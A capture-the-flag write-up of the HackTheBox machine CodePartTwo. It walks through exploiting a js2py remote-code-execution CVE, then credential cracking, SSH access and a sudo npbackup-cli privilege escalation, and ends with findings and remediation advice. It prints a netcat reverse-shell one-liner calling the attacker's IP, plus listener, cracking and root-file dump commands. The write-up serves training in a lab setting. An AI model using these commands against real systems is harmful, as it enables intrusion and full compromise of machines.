










# CTF Write-up — CodePartTwo from hackthebox.com

> **Summary:** Exploited a js2py SSTI RCE to get a service shell, crack a user password and SSH in, then abused a sudo-able npbackup-cli misconfiguration to escalate to root.    
> **Difficulty:** Easy  
> **HTB:** https://app.hackthebox.com/machines/692
>


---

## Table of contents
1. [Reconnaissance](#reconnaissance)
2. [Resource development](#resource-development)
3. [Initial access](#initial-access)
4. [Privilege escalation](#privilege-escalation)
5. [Findings & recommendations](#findings--recommendations)

---

## 1. Reconnaissance

### Port scan
- Performed an `nmap` scan and enumerated open services. See `evidences/nmap.txt`.  
```bash
nmap -sV -sS 10.10.11.82 -oN nmap.txt
```
- Results (high-level):
  - `8000/tcp` — HTTP (Gunicorn)
  - `22/tcp` — SSH

### Web site analysis
- after creating an account and logging in we find an execute code form:  
 
- we also find a download to the source code running this website:  


### Source code analysis
- we download the source code and analyze the `app.py` file. See `evidences/app.py`.  
- analyzing the file we find that the code provided by the user is ran through the `js2py` library:  

- from the requirements.txt file we find that the version is `js2py 0.74`

### CVE research
- there's a critical CVE correlated to js2py: [CVE-2024-28397](https://nvd.nist.gov/vuln/detail/CVE-2024-28397)
- there're also several PoC exploits: [PoC in python](https://github.com/advisories/GHSA-r9pp-r4xf-597r)

---

## 2. Resource development

### Reverse shell
- since the PoC allow us to do a RCE we prepare a reverse shell from [reverse shell generator](https://www.revshells.com/):   
``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.26 9000 >/tmp/f
```

### Listener Socket
- we start a socket listener to catch the remote connection that will be started:
``` bash
nc -lvnp 9000
```

---

## 3. Initial access
### App user access
- once everything is ready we just need to upload the PoC, run the code and get initial access: 

### System enumeration
- we accessed as user `app`, so we need to gain access as a more priviledge user
- navigating the system we find the `user.db` file and download it locally. See `evidences/user.db`:  
  

### Users.db enumeration
- opening the database and searching in it let us find the users hashes:  


### Hash cracking
- we can crack the hash using John the ripper:
``` bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```


### User Flag
- we can now ssh into the machine:
``` bash
ssh marco@10.10.11.82
```


---

## 4. Privilege escalation
### Linux enumeration
- we use `sudo -l` to list cmds that the user can run as privileged user and find npbackup-cli:  

- we also find the config file for npbackup:  


### Npbackup hack
- we create a version of npbackup config that backup /root folder instead of /home/app/app:  

- than we create a backup of the folder:
``` bash
npbackup-cli -c root.conf -b
```
- now we can dump file's content form this backup:
``` bash
npbackup-cli --dump /root/root.flag
```


---

## 5. Findings & recommendations
### Key findings
| # | Category                                    | Description                                                                                            | Impact   |
| - | ------------------------------------------- | ------------------------------------------------------------------------------------------------------ | -------- |
| 1 | **Remote Code Execution (RCE)**             | The `js2py` library (v0.74) was vulnerable to arbitrary code execution (CVE-2024-28397).               | Critical |
| 2 | **Insecure Configuration Management**       | The web app allowed users to upload or execute arbitrary code, leading to exploitation.                | High     |
| 3 | **Weak Credential Storage**                 | Password hashes were stored unsalted in a SQLite database.                                             | Medium   |
| 4 | **Privilege Escalation via Backup Utility** | `npbackup-cli` was executable with elevated privileges and could be reconfigured to access root files. | High     |


### Immediate remediation (high-level)
1. **Patch and Dependency Management** Update js2py to >= 0.74.1 or any version where CVE-2024-28397 is mitigated.

2. **Secure Code Execution Handling** Never directly evaluate user-supplied input in server-side logic (especially with libraries like js2py, exec, eval, or template rendering engines).

3. **Credential and Database Security** Store credentials using strong hashing algorithms (e.g., bcrypt, argon2) with salt.

4. **Privilege Management** Restrict usage of elevated binaries (sudo access) to necessary commands only.

5. **System Hardening and Monitoring** Enable AppArmor/SELinux profiles to prevent command execution escalation.    


---
